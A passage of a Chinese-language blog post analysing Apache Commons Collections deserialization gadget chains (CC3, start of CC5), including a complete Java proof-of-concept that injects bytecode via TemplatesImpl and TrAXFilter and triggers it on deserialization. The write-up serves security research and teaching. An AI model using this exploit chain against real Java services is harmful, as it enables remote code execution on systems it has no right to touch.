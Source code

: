 当然，缺少了 InvokerTransformer，TrAXFilter 的构造方法也是无法调用的。通过利用 `org.apache.commons.collections.functors.InstantiateTransformer` 中的 `InstantiateTransformer` 调用构造方法。

所以，最终的目标是，利用 `InstantiateTransformer` 来调用到 `TrAXFilter` 的构造方法，再利用其构造方法里的 `templates.newTransformer()` 调用到 `TemplatesImpl` 里的字节码。

构造的 Transformer 调用链如下：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```java<br>Transformer[] transformers = new Transformer[]{<br>    new ConstantTransformer(TrAXFilter.class),<br>    new InstantiateTransformer(new Class[] { Templates.class }, new Object[] { obj })<br>};<br>``` |

最终也是可以成功触发的：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108311053530.png-water_print](assets/1699411658-ae00a78a2df73d47f77ea829bfdb21ad.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108311053530.png-water_print")

警告

这个 POC 和 CC1 也有同样的问题，就是只支持 Java 8u71 及以下版本。

完整的反序列化过程如下：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>56<br>57<br>58<br>59<br>60<br>61<br>62<br>63<br>64<br>65<br>66<br>67<br>68<br>69<br>``` | ```java<br>package com.geekby.cc3test;<br><br><br>import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;<br>import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;<br>import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;<br>import org.apache.commons.collections.Transformer;<br>import org.apache.commons.collections.functors.ChainedTransformer;<br>import org.apache.commons.collections.functors.ConstantTransformer;<br>import org.apache.commons.collections.functors.InstantiateTransformer;<br>import org.apache.commons.collections.functors.InvokerTransformer;<br>import org.apache.commons.collections.map.TransformedMap;<br><br>import javax.xml.transform.Templates;<br>import java.io.ByteArrayInputStream;<br>import java.io.ByteArrayOutputStream;<br>import java.io.ObjectInputStream;<br>import java.io.ObjectOutputStream;<br>import java.lang.annotation.Retention;<br>import java.lang.reflect.Constructor;<br>import java.lang.reflect.Field;<br>import java.nio.file.Files;<br>import java.nio.file.Paths;<br>import java.util.HashMap;<br>import java.util.Map;<br><br>public class CC3Original {<br>    public static void main(String[] args) throws Exception {<br>        byte[] code = Files.readAllBytes(Paths.get("/Volumes/MacOS/WorkSpace/JAVA/ClassLoaderVuln/http/HelloTemppaltesImpl.class"));<br><br>        TemplatesImpl obj = new TemplatesImpl();<br>        setFieldValue(obj, "_bytecodes", new byte[][] {code});<br>        setFieldValue(obj, "_name", "HelloTemplatesImpl");<br>        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());<br><br>        Transformer[] transformers = new Transformer[]{<br>                new ConstantTransformer(TrAXFilter.class),<br>                new InstantiateTransformer(new Class[] { Templates.class }, new Object[] { obj })<br>        };<br><br>        Transformer transformerChain = new ChainedTransformer(transformers);<br><br>        Map innerMap = new HashMap();<br>        innerMap.put("value","Geekby");<br>        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);<br><br>        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");<br>        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);<br>        construct.setAccessible(true);<br>        Object res = construct.newInstance(Retention.class, outerMap);<br>			// 序列化<br>        ByteArrayOutputStream barr = new ByteArrayOutputStream();<br>        ObjectOutputStream oos = new ObjectOutputStream(barr);<br>        oos.writeObject(res);<br>        oos.close();<br><br>        // 反序列化<br>        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));<br>        ois.readObject();<br>    }<br><br><br><br>    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {<br>        Field field = obj.getClass().getDeclaredField(fieldName);<br>        field.setAccessible(true);<br>        field.set(obj, value);<br>    }<br>}<br>``` |

## [](#3-commonscollections-5-gadget-%E5%88%86%E6%9E%90)3 CommonsCollections 5 Gadget 分析

CC5 的调用链：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```fallback<br>->BadAttributeValueExpException.readObject()<br>      ->TiedMapEntry.toString()<br>          ->TiedMapEntry.getValue()<br>            ->LazyMap.get()<br>                ->ChainedTransformer.transform()<br>                    ->ConstantTransformer.transform()<br>                            ->InvokerTransformer.transform()<br>                                ->…………<br>``` |
